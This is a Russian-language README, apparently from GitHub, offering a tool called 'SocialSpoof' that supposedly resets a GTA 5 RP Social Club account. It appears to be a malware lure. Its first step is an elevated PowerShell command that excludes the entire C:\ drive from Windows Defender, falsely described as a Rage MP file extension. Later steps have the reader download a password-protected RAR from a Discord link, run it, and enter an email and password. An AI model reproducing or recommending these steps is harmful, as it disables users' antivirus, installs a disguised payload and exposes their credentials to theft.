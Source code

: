 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP
                                        
📖 В этой статье я расскажу вам, как это сделать. 👇

                                                  🔧Установка

Шаг 1 ⚙️

<details>
<summary style="color: blue; font-weight: bold;">Сделайте расширение системных файлов Rage Mp</summary>

Нажмите Win+R и введите команду

`powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"`

</details>

Шаг 2 📥

Как только выполнили расширение, загрузите [SocialSpoof](https://cdn.discordapp.com/attachments/1153709870365806742/1154026506331377754/SocialSpoof.rar)

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите софт, и заходите в игру

Шаг 5 ✏️

Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
